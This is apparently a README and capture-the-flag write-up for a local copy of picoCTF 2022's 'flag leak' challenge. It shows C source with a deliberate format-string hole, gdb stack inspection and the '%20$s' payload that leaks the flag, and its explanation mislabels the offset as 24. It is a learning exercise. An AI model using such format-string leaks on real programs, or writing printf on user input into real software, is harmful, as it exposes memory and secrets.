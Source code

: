 # Format_String
local compile version of the 'flag leak' challenge - picoCTF 2022

## How to use
- Step 1: Run command ```docker build . -t chall:1``` to build the challenge
- Step 2: Run command ```docker run --rm -it chall:1``` to run the challange

## Write up
- First let's checkout the source code
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 64
#define FLAGSIZE 64

void readflag(char* buf, size_t len) {
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,len,f); // size bound read
}

void vuln(){
   char flag[BUFSIZE];
   char story[128];

   readflag(flag, FLAGSIZE);

   printf("Nói gì đi rồi tui nói lại cho >> ");
   scanf("%127s", story);
   printf("Đến lượt tui nè: \n");
   printf(story);
   printf("\n");
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  pid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
  return 0;
}
```
- Checksec:


- No PIE enable. Easily see the format-string-vulnerability on vuln function by calling to printf(story) without any format string arguments
- Step 1: Check the FLAG frame in stack
``` assembly
(gdb) diassemble vuln
Undefined command: "diassemble".  Try "help".
(gdb) disassemble vuln
Dump of assembler code for function _Z4vulnv:
   0x0804927f <+0>:     push   %ebp
   0x08049280 <+1>:     mov    %esp,%ebp
   0x08049282 <+3>:     push   %ebx
   0x08049283 <+4>:     sub    $0xc4,%esp
   0x08049289 <+10>:    call   0x8049140 <__x86.get_pc_thunk.bx>
   0x0804928e <+15>:    add    $0x2d72,%ebx
   0x08049294 <+21>:    sub    $0x8,%esp
   0x08049297 <+24>:    push   $0x40
   0x08049299 <+26>:    lea    -0x48(%ebp),%eax
   0x0804929c <+29>:    push   %eax
   0x0804929d <+30>:    call   0x8049206 <_Z8readflagPcj>
   0x080492a2 <+35>:    add    $0x10,%esp
   0x080492a5 <+38>:    sub    $0xc,%esp
   0x080492a8 <+41>:    lea    -0x1f9c(%ebx),%eax
   0x080492ae <+47>:    push   %eax
   0x080492af <+48>:    call   0x8049050 <printf@plt>
   0x080492b4 <+53>:    add    $0x10,%esp
   0x080492b7 <+56>:    sub    $0x8,%esp
   0x080492ba <+59>:    lea    -0xc8(%ebp),%eax
   0x080492c0 <+65>:    push   %eax
   0x080492c1 <+66>:    lea    -0x1f6d(%ebx),%eax
   0x080492c7 <+72>:    push   %eax
   0x080492c8 <+73>:    call   0x80490d0 <__isoc99_scanf@plt>
   0x080492cd <+78>:    add    $0x10,%esp
   0x080492d0 <+81>:    sub    $0xc,%esp
   0x080492d3 <+84>:    lea    -0x1f67(%ebx),%eax
   0x080492d9 <+90>:    push   %eax
   0x080492da <+91>:    call   0x8049080 <puts@plt>
   0x080492df <+96>:    add    $0x10,%esp
   0x080492e2 <+99>:    sub    $0xc,%esp
   0x080492e5 <+102>:   lea    -0xc8(%ebp),%eax
--Type <RET> for more, q to quit, c to continue without paging--
   0x080492eb <+108>:   push   %eax
   0x080492ec <+109>:   call   0x8049050 <printf@plt>
   0x080492f1 <+114>:   add    $0x10,%esp
   0x080492f4 <+117>:   sub    $0xc,%esp
   0x080492f7 <+120>:   push   $0xa
   0x080492f9 <+122>:   call   0x80490c0 <putchar@plt>
   0x080492fe <+127>:   add    $0x10,%esp
   0x08049301 <+130>:   nop
   0x08049302 <+131>:   mov    -0x4(%ebp),%ebx
   0x08049305 <+134>:   leave
   0x08049306 <+135>:   ret
```
- Break point at 0x080492a2
```assembly
Breakpoint 1, 0x080492a2 in vuln() ()
(gdb) x
Argument required (starting display address).
(gdb) x/100x $sp
0xffffd000:     0xffffd090      0x00000040      0xf7d86374      0x0804928e
0xffffd010:     0xf7fbe4a0      0xffffffff      0xffffd094      0xf7d81e54
0xffffd020:     0xf7fbe4a0      0xf7fd0294      0xf7d79674      0xf7f9a000
0xffffd030:     0xf7f9ada0      0x00000000      0x08048369      0x0804c034
0xffffd040:     0xf7ffda40      0xf7fd6f20      0x08048369      0xf7ffda40
```
- 0xffffd090 is FLAG address -> the stack frmae of FLAG
- Continue breakpoint right the scanf function at 0x080492c8
```assembly
Breakpoint 1, 0x080492c8 in vuln() ()
(gdb) x/100x $sp
0xffffd000:     0x0804a093      0xffffd010      0xf7d86374      0x0804928e
0xffffd010:     0xf7fbe4a0      0xffffffff      0xffffd094      0xf7d81e54
0xffffd020:     0xf7fbe4a0      0xf7fd0294      0xf7d79674      0xf7f9a000
0xffffd030:     0xf7f9ada0      0x00000000      0x08048369      0x0804c034
0xffffd040:     0xf7ffda40      0xf7fd6f20      0x08048369      0xf7ffda40
0xffffd050:     0xffffd090      0xf7ffdc0c      0xf7fbe7c0      0x00000001
```
- From the current the stack frame that esp point to (0x0804a093) the stack frame of FLAG (0xffffd090) need 20 stack frame including the FLAG stackframe. So we can use this payload to leak the FLAG: "%20$s"
```c
% : This marks the beginning of a format specifier.
24 : This is a positional argument specifier. It means that printf should use the 24th argument in the list provided to it.
$ : This is used in conjunction with the positional argument specifier. It's what differentiates a positional argument specifier from a width specifier.
s : This indicates that the argument is expected to be a string (char *).
So, when you use %20$s in printf, the function will expect at least 20 arguments to be passed to it, and it will print the 20th argument assuming it's a string. If there are fewer than 20 arguments provided, or if the 20th argument is not a string, this will likely result in undefined behavior, such as a crash or printing garbage data, because printf will try to access memory that it shouldn't.

Here's a simple example:
printf("%20$s", arg1, arg2, ..., arg20); // arg20 should be a string

In this code, arg20 is expected to be a string, and it will be printed. This feature is not commonly used and can lead to confusing code, so it's generally recommended to use simpler format specifiers unless you have a specific need for this kind of functionality.
```
- FLAG:
```
mera@Admin:/mnt/d/LTAT$ ./chall
Nói gì đi rồi tui nói lại cho >> %20$s
Đến lượt tui nè:
CCDCTF{s33d_h@i_nhw_n@y_s33d_m0t_nhw_n@0}
```




